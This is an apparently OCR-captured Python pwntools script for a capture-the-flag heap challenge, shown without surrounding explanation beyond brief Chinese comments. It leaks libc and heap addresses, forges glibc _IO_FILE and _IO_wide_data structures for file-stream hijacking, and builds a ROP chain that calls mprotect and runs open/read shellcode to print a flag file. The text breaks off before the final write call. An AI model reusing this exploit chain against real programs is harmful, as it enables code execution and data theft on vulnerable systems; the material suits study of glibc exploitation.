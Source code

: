 ```py
add_com(0x548)
add_com(0x548)
add_com(0x538)
del_com(1)
add_com(0x558)
del_com(3)

content = show_com(1)
libc_addr 	= u64(content[:8]) - 0x21b120
libc.address 	= libc_addr
heap_addr 	= u64(content[16:24])
heap_base_addr 	= heap_addr - 0x1950

leave_ret_c 	= next(libc.search(asm('leave;ret;')))
'''call [[[rdi + 0x48] + 0x18] + 0x28]; move rdi, [[rdi + 0x48] + 0x10]'''
magic_gadget 	= next(libc.search(asm('mov rbp, qword ptr [rdi + 0x48];mov rax, qword ptr [rbp + 0x18]')))
rdi_c 		= next(libc.search(asm('pop rdi;ret;')))
rsi_c 		= next(libc.search(asm('pop rsi;ret;')))
rdx_r12_c 	= next(libc.search(asm('pop rdx;pop r12;ret;')))
lock 		= libc_addr + 0x3ed8b0
wfile 		= libc_addr + 0x216F40

start_addr 	= heap_addr
widedata_addr 	= start_addr + 0xe0
orw_addr 	= start_addr + 0xe0 + 0xe8 + 0x70
shell_addr	= start_addr + 0xe0 + 0xe8 + 0x70 + 0x68

# 伪造 struct _IO_FILE_complete_plus
struct_file = flat({
	# struct _IO_FILE_complete -> _IO_FILE
	0:      0,  										# file._flag
	0x18:   p64(leave_ret_c),							# file._IO_read_base
	0x28:   p64(libc.symbols['_IO_list_all'] - 0x20),	# file._IO_write_ptr
	0x48: 	p64(orw_addr),  							# file._IO_save_base
	0x88:   p64(lock),                 					# file._lock
	# struct _IO_FILE_complete
	0xa0:   p64(widedata_addr),                  		# file._wide_data 
	# struct
	0xd8:   p64(wfile),									# file._vtable
}, filler=b'\0')

# 伪造 struct _IO_wide_data
struct_widedata  = flat({
	0xe0:	p64(widedata_addr + 0xe8),					# _IO_wide_data._IO_read_ptr
	0x150:	p64(magic_gadget),							# 
}, filler=b'\0')

orw =  b'./flag\x00\x00'
orw += p64(rdx_r12_c) + p64(0) + p64(start_addr - 0x10)
# 调用 mprotect, 修改 heap_base_addr ~ heap_base_addr + 0x10000 为rwx
orw += p64(rdi_c) + p64(heap_base_addr)
orw += p64(rsi_c) + p64(0x10000)
orw += p64(rdx_r12_c) + p64(0x7) * 2
orw += p64(libc.symbols['mprotect'])
orw += p64(shell_addr)
''' long syscall(SYS_openat2, int dirfd, const char *pathname, struct open_how *how, size_t size); '''
orw += asm(shellcraft.openat2(-100, orw_addr, orw_addr + 0x1000, 0x18))
''' ssize_t read(int fd, void buf[.count], size_t count); '''
orw += asm(shellcraft.read(3, heap_base_addr + 0x10000, 0x50))
''' ssize_t write(int fd, const void buf[.count], size_t count); '''
''' write to stdout 1 '''
```